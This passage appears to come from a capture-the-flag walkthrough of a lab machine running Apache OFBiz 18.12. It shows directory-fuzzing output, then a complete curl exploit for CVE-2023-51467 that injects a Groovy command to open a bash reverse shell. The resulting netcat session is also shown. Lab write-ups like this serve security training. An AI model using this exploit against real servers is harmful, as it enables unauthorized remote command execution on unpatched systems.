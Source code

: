 ```shell
 :: Filter           : Response words: 10468
________________________________________________

login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186, Duration: 5176ms]
help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 5022ms]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 4117ms]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 583ms]
```

The underlying Apache OFBiz version of the logi page is 18.12. This version is susceptible to a command injection vulnerability documented under CVE-2023-51467 (https://vulncheck.com/blog/ofbiz-cve-2023-51467). 

![img-description](3.jpg)

we craft our payload to get a reverse shell as stated in this [Article]((https://vulncheck.com/blog/ofbiz-cve-2023-51467))

```shell
curl -kv -H "Host: bizness.htb" -d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >%26 /dev/tcp/10.10.16.35:4444 0>%261;';x.execute();" "https://bizness.htb/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

Running the curl request we gain the initial foothold 

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.35] from (UNKNOWN) [10.10.11.252] 39332
bash: cannot set terminal process group (719): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ 
```
